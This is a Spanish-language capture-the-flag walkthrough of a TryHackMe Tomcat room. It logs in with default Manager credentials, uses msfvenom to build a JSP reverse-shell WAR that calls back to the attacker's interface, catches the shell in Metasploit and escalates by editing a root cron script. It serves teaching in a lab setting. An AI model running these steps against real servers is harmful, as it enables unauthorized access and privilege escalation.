

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/bsidesgtthompson)  | Fácil  |  [stuxnet](https://tryhackme.com/p/stuxnet)  |

## Reconocimiento

Como siempre, ejecutemos `nmap` para ver qué puertos están abiertos.
```bash
╰─ lanfran@parrot ❯ map 10.10.128.244                                                                                              ─╯
[sudo] password for lanfran: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 13:43 CEST
Nmap scan report for 10.10.128.244
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.03 seconds
```
Como indican el nombre y la imagen de portada de la sala, la máquina está ejecutando un servidor `Apache Tomcat` en el puerto 8080.

## Acceso inicial - Usuario

Obtenemos la página predeterminada de Tomcat, y también podemos ir a la pestaña `Manager App`.

¿Quizás si probamos con las credenciales predeterminadas para Tomcat?
_tomcat:s3cret_

¡SÍ! ¡Estamos adentro!


¡Y aquí adentro, podemos cargar un archivo `.war`!

¡Así que ejecutemos `msfconsole` y `msfvenom` para crear un payload!


```bash
#Creando el payload
╰─ lanfran@parrot ❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=tun0 LPORT=5555 -f war > shell.war                                ─╯
Payload size: 1091 bytes
Final size of war file: 1091 bytes
```
```bash
#Corriendo Metasploit para capturar la conexión
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  tun0             yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.9.6.21:5555
```
Ahora carguemos nuestro archivo `shell.war`.

Y navegue hasta el nombre de archivo "raro". En mi caso fue `http://10.10.128.244:8080/hgkFDt6wiHIUB29WWEON5PA/`

Después de eso, deberíamos tener un nuevo shell en Metasploit.

```bash
[*] Command shell session 1 opened (10.9.6.21:5555 -> 10.10.128.244:34468) at 2021-07-04 13:57:31 +0200

id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```
Mejoremos nuestra shell con Python.

`python -c 'import pty;pty.spawn("/bin/bash")'`

¡Genial! Ahora podemos leer la bandera del usuario.

```bash
tomcat@ubuntu:/home/jack$ cat user.txt
3[REDACTADO]f
```

## Root

Hay un trabajo cron (cron job) ejecutándose con los privilegios de root.

Así que vayamos a `/home/jack` y copiemos la flag de root en un archivo en nuestro directorio de inicio.

```bash
tomcat@ubuntu:/home/jack$ echo "cat /root/root.txt > test.txt" > id.sh
tomcat@ubuntu:/home/jack$ cat id.sh
cat /root/root.txt > test.txt
```

Después de un minuto, obtenemos la bandera de root en test.txt

```bash
tomcat@ubuntu:/home/jack$ cat test.txt            
d[REDACTADO]a
```

¡Y hemos "rooteado" la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!